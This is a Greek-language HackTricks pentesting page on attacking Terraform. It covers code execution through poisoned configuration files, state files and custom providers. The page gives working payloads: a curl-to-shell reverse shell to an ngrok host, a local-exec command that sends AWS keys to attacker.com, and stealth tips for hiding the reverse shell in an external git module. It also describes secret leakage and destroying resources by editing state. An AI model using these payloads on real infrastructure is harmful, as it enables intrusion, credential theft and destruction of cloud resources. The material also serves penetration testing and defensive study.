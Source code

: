# Ασφάλεια Terraform

<details>

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκερ υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Βασικές Πληροφορίες

[Από τα έγγραφα:](https://developer.hashicorp.com/terraform/intro)

Το HashiCorp Terraform είναι ένα εργαλείο **υποδομής ως κώδικα** που σας επιτρέπει να ορίσετε τόσο **πόρους στο cloud όσο και on-prem** σε αρχεία ρυθμίσεων που μπορείτε να διαβάσετε, να επαναχρησιμοποιήσετε και να μοιραστείτε. Στη συνέχεια, μπορείτε να χρησιμοποιήσετε ένα συνεπή ρεύμα εργασίας για την παροχή και διαχείριση όλης της υποδομής σας καθ' όλη τη διάρκεια του κύκλου ζωής της. Το Terraform μπορεί να διαχειριστεί συστατικά χαμηλού επιπέδου όπως υπολογιστές, αποθήκευση και δίκτυα, καθώς και συστατικά υψηλού επιπέδου όπως καταχωρήσεις DNS και χαρακτηριστικά SaaS.

### Πώς λειτουργεί το Terraform;

Το Terraform δημιουργεί και διαχειρίζεται πόρους σε πλατφόρμες cloud και άλλες υπηρεσίες μέσω των διεπαφών προγραμματισμού εφαρμογών τους (APIs). Οι παροχείς επιτρέπουν στο Terraform να λειτουργεί με σχεδόν οποιαδήποτε πλατφόρμα ή υπηρεσία με προσβάσιμο API.

![](<../.gitbook/assets/image (177).png>)

Η HashiCorp και η κοινότητα του Terraform έχουν ήδη γράψει **περισσότερους από 1700 παρόχους** για τη διαχείριση χιλιάδων διαφορετικών τύπων πόρων και υπηρεσιών, και αυτός ο αριθμός συνεχίζει να αυξάνεται. Μπορείτε να βρείτε όλους τους δημόσια διαθέσιμους παρόχους στο [Μητρώο Terraform](https://registry.terraform.io/), συμπεριλαμβανομένων των Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog και πολλών άλλων.

Η βασική ροή εργασίας του Terraform αποτελείται από τρία στάδια:

* **Εγγραφή:** Ορίζετε πόρους, οι οποίοι μπορεί να είναι σε πολλούς παρόχους cloud και υπηρεσίες. Για παράδειγμα, μπορείτε να δημιουργήσετε μια διαμόρφωση για την ανάπτυξη μιας εφαρμογής σε εικονικούς υπολογιστές σε ένα δίκτυο Virtual Private Cloud (VPC) με ομάδες ασφαλείας και έναν εξισορροπητή φορτίου.
* **Σχεδιασμός:** Το Terraform δημιουργεί ένα σχέδιο εκτέλεσης περιγράφοντας την υποδομή που θα δημιουργήσει, ενημερώσει ή καταστρέψει με βάση την υπάρχουσα υποδομή και τη διαμόρφωσή σας.
* **Εφαρμογή:** Με την έγκριση, το Terraform εκτελεί τις προτεινόμενες λειτουργίες με τη σωστή σειρά, σεβόμενο τυχόν εξαρτήσεις πόρων. Για παράδειγμα, αν ενημερώσετε τις ιδιότητες ενός VPC και αλλάξετε τον αριθμό των εικονικών μηχανών σε αυτό το VPC, το Terraform θα αναδημιουργήσει το VPC πριν από την κλιμάκωση των εικονικών μηχανών.

![](<../.gitbook/assets/image (215).png>)

## Εργαστήριο Terraform

Απλά εγκαταστήστε το terraform στον υπολογιστή σας.

Εδώ έχετε έναν [οδηγό](https://learn.hashicorp.com/tutorials/terraform/install-cli) και εδώ έχετε τον [καλύτερο τρόπο για να κατεβάσετε το terraform](https://www.terraform.io/downloads).

## RCE στο Terraform

Το Terraform **δεν έχει μια πλατφόρμα που εκθέτει μια ιστοσελίδα ή ένα δίκτυο υπηρεσίας** που μπορούμε να απαριθμήσουμε, επομένως, ο μόνος τρόπος να διακινδυνεύσουμε το terraform είναι να **είμαστε σε θέση να προσθέσουμε/τροποποιήσουμε αρχεία διαμόρφωσης του terraform**.

Ωστόσο, το terraform είναι ένα **πολύ ευαίσθητο στοιχείο** για να διακινδυνεύσετε επειδή θα έχει **προνομιακή πρόσβαση** σε διαφορετικές τοποθεσίες ώστε να μπορεί να λειτουργήσει σωστά.

Ο κύριος τρόπος για έναν επιτιθέμενο να μπορεί να διακινδυνεύσει το σύστημα όπου τρέχει το terraform είναι να **διακινδυνεύσει το αποθετήριο που αποθηκεύει τις διαμορφώσεις του terraform**, επειδή σε κάποιο σημείο θα **ερμηνευτούν**.

Πράγματι, υπάρχουν λύσεις εκεί έξω που **εκτελούν αυτόματα το terraform plan/apply μετά τη δημιουργία ενός PR**, όπως το **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Αν είστε σε θέση να διακινδυνεύσετε ένα αρχείο terraform υπάρχουν διαφορετικοί τρόποι με τους οποίους μπορείτε να πραγματοποιήσετε RCE όταν κάποιος εκτελεί `terraform plan` ή `terraform apply`.

### Terraform plan

Το terraform plan είναι η **πιο χρησιμοποιημένη εντολή** στο terraform και οι προγραμματιστές/λύσεις που χρησιμοποιούν το terraform την καλούν συνέχεια, οπότε ο **ευκολότερος τρόπος να πάρετε RCE** είναι να βεβαιωθείτε ότι δημιουργείτε ένα δηλητηριώδες αρχείο διαμόρφωσης terraform που θα εκτελέσει αυθαίρετες εντολές σε ένα `terraform plan`.

#### Χρησιμοποιώντας έναν εξωτερικό παροχέα

Το Terraform προσφέρει τον [πάροχο `external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs) που παρέχει έναν τρόπο διασύνδεσης μεταξύ του Terraform και εξωτερικών προγραμμάτων. Μπορείτε να χρησιμοποιήσετε την πηγή δεδομένων `external` για να εκτελέσετε αυθαίρετο κώδικα κατά τη διάρκεια ενός `plan`.

Ενσωματώνοντας σε ένα αρχείο διαμόρφωσης terraform κάτι παρόμοιο με το παρακάτω θα εκτελέσει ένα αντίστροφο κέλυφος όταν εκτελείτε `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Χρήση προσαρμοσμένου παροχέα

Ένας επιτιθέμενος θα μπορούσε να στείλει έναν [προσαρμοσμένο παροχέα](https://learn.hashicorp.com/tutorials/terraform/provider-setup) στο [Μητρώο Terraform](https://registry.terraform.io/) και στη συνέχεια να τον προσθέσει στον κώδικα Terraform σε ένα κλαδί χαρακτηριστικού ([παράδειγμα από εδώ](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Ο πάροχος κατεβάζεται στο `init` και θα εκτελέσει το κακόβουλο κώδικα όταν εκτελεστεί το `plan`.

Μπορείτε να βρείτε ένα παράδειγμα στο [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Χρησιμοποιώντας μια εξωτερική αναφορά

Και οι δύο επιλογές που αναφέρθηκαν είναι χρήσιμες αλλά όχι πολύ αόρατες (η δεύτερη είναι πιο αόρατη αλλά πιο περίπλοκη από την πρώτη). Μπορείτε να εκτελέσετε αυτήν την επίθεση ακόμα με έναν **πιο αόρατο τρόπο**, ακολουθώντας αυτές τις προτάσεις:

* Αντί να προσθέσετε τον αντίστροφο κέλυφος (rev shell) απευθείας στο αρχείο terraform, μπορείτε να **φορτώσετε έναν εξωτερικό πόρο** που περιέχει το αντίστροφο κέλυφος:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Μπορείτε να βρείτε τον κώδικα του αντιστρεπτικού κελύφους στο [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Στο εξωτερικό πόρο, χρησιμοποιήστε το χαρακτηριστικό **ref** για να κρύψετε τον **κώδικα του αντιστρεπτικού κελύφους του Terraform σε ένα κλαδί** μέσα στο αποθετήριο, κάτι σαν: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Εφαρμογή Terraform

Η εφαρμογή του Terraform θα εκτελεστεί για να εφαρμοστούν όλες οι αλλαγές, μπορείτε επίσης να το καταχραστείτε για να λάβετε RCE εισάγοντας **ένα κακόβουλο αρχείο Terraform με** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Απλά χρειάζεται να βεβαιωθείτε ότι κάποιο φορτίο όπως τα παρακάτω τελειώνει στο αρχείο `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Ακολουθήστε τις **προτάσεις από την προηγούμενη τεχνική** για να εκτελέσετε αυτήν την επίθεση με έναν **πιο αθόρυβο τρόπο χρησιμοποιώντας εξωτερικές αναφορές**.

## Διαρροές Μυστικών

Μπορείτε να έχετε **μυστικές τιμές που χρησιμοποιούνται από το terraform να διαρρεύσουν** εκτελώντας το `terraform apply` προσθέτοντας στο αρχείο terraform κάτι σαν:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Κατάχρηση Αρχείων Κατάστασης του Terraform

Στην περίπτωση που έχετε πρόσβαση εγγραφής σε αρχεία κατάστασης του terraform αλλά δεν μπορείτε να αλλάξετε τον κώδικα του terraform, [**αυτή η έρευνα**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) παρέχει μερικές ενδιαφέρουσες επιλογές για να εκμεταλλευτείτε το αρχείο:

### Διαγραφή Πόρων <a href="#deleting-resources" id="deleting-resources"></a>

Υπάρχουν 2 τρόποι για την καταστροφή πόρων:

1. **Εισαγωγή ενός πόρου με ένα τυχαίο όνομα στο αρχείο κατάστασης που δείχνει στον πραγματικό πόρο προς καταστροφή**

Επειδή το terraform θα δει ότι ο πόρος δεν πρέπει να υπάρχει, θα τον καταστρέψει (ακολουθώντας το πραγματικό αναγνωριστικό του πόρου). Παράδειγμα από την προηγούμενη σελίδα:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Τροποποίηση του πόρου προς διαγραφή με έναν τρόπο ώστε να μην είναι δυνατή η ενημέρωσή του (έτσι θα διαγραφεί και θα αναδημιουργηθεί)**

Για ένα παράδειγμα EC2 instance, η τροποποίηση του τύπου της instance είναι αρκετή για να κάνει το terraform να τη διαγράψει και να την αναδημιουργήσει.

### RCE

Είναι επίσης δυνατόν να [δημιουργήσετε έναν προσαρμοσμένο πάροχο](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) και απλά να αντικαταστήσετε έναν από τους πάροχους στο αρχείο κατάστασης του terraform με τον κακόβουλο ή να προσθέσετε έναν κενό πόρο με τον κακόβουλο πάροχο. Παράδειγμα από την αρχική έρευνα:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Αντικατάσταση αποκλεισμένου παροχέα

Σε περίπτωση που αντιμετωπίσετε μια κατάσταση όπου ο `hashicorp/external` έχει αποκλειστεί, μπορείτε να επαναυλοποιήσετε τον παροχέα `external` κάνοντας τα ακόλουθα. Σημείωση: Χρησιμοποιούμε ένα fork του παροχέα external που δημοσιεύτηκε από το https://registry.terraform.io/providers/nazarewk/external/latest. Μπορείτε επίσης να δημοσιεύσετε το δικό σας fork ή επαναυλοποίηση.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
Τότε μπορείτε να χρησιμοποιήσετε το `external` όπως συνήθως.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## Εργαλεία Ελέγχου

* [**tfsec**](https://github.com/aquasecurity/tfsec): Το tfsec χρησιμοποιεί στατική ανάλυση του κώδικα terraform σας για τον εντοπισμό πιθανών λαθών ρύθμισης.
* [**terascan**](https://github.com/tenable/terrascan): Το Terrascan είναι ένας αναλυτής κώδικα για τον κώδικα υποδομής ως κώδικα.

## Αναφορές

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 στην [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκινγκ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}
